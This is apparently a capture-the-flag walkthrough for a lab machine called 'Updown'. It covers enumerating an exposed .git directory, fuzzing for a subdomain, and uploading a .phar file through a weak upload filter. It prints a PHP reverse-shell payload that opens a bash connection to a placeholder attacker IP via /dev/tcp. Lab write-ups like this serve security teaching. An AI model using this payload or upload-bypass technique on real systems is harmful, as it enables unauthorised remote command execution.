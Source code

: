 # Updown

This machine has classic HTTP/SSH config, nothing more, but a basic enumeration reveals "hidden" `.git/` dir in `/dev/` subfolder.

You can download the folder or use dedicated tools, such as GitHacker. One of the commits indicates a _fantastic_ technique used by the dev team to protect their vhost.
They use a classic subdomain you can found with any wordlist containing common subdomains (e.g., wfuzz, Gobuster). You might even guess it!

There's a form you need to abuse to upload a backdoor and pass arbitrary commands. It's possible because the form has an input for uploads and you have access to the code that processes the form in the git history. Many formats are disallowed but not `.phar`, which is a classic hack.

There are more work after that, but the payload to upload with the form looks like the following:

```php
<?php
// rs.phar
$descriptor_spec = array(
   0 => array( "pipe", "r" ),
   1 => array( "pipe", "w" ),
   2 => array( "file", "/tmp/errors.txt", "a" ),// stderr
);

$process = proc_open("bash", $descriptor_spec, $pipes, "/tmp");
// replace with your IP and listening port
fwrite($pipes[0], 'bash -i >& /dev/tcp/{YOUR_ATTACKER_IP}/{YOUR_PORT} 0>&1');
fclose($pipes[0]);
echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
$return_value = proc_close($process);
echo "command returned $return_value\n";
?>
```

After that you can navigate to the uploaded .phar and get your shell.
